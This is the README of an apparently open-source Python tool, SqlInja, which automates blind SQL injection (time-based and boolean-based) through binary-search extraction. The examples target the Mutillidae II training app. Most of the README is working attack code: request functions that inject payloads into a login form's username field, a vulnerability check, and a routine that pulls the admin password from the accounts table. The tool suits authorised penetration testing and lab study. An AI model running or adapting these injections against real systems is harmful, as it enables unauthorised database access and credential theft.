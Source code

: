 # sqlinja
SqlInja is a Python library designed to automate exploitation of SQL blind injection (time-based or boolean-based). It includes functions for generating payloads, sending requests, and analyzing responses.

The extraction use [Binary search algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) for define which candidate is the good value.

## Usages
(the examples are for Login of [mutillidae II](https://github.com/webpwnized/mutillidae) )

### Define the function who execute the requests

This fuction must match to `(request: str) -> bool`.

This function include then target specific logic (encodage, token, method, ...)

##### Time Based Injection 

```python
sleep_duration = 1

def exec_request(request: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' AND {request} #",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers)
    return res.elapsed.seconds >= sleep_duration
```
##### Boolean Based Injection

```python
def exec_request(payload: str) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' OR {payload} # ",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers, allow_redirects=False)
    return res.status_code == 302
```

### Check if target is vulnerable for payload

```python
helper = SqlInja(MySqlConfig(), exec_request, MySqlConfig.payload_int_time)
# Is target vulnerable ?
if(helper.check("SELECT 1")):
    print("Target is Vulnerable")
else:
    print("Target is not Vulnerable")
    exit()
```

### Extract Data from a cell 
```python
# extract pass
# the expected values are ASCII alphanum
candidates = SqlInja.string_to_candidates(string.ascii_letters + string.digits)
helper.prepare_new(candidates, template=MySqlConfig.payload_str_time)
result = helper.extract_cell("SELECT password FROM accounts WHERE username = 'admin' LIMIT 0,1")
print("pass for 'admin' : ", "".join(map(chr, result)))
```

More examples in 'example' folder

## Contributing

Contributions are welcome! If you find a bug or have a feature request, please create an issue or submit a pull request.

## Legal disclaimer

Use of this script for attacking a target without mutual consent is illegal. It's is the end user responsibility to obey all applicables laws for his location Developers assume no lisibility and are not responsible for any misuse or domage caused by this program
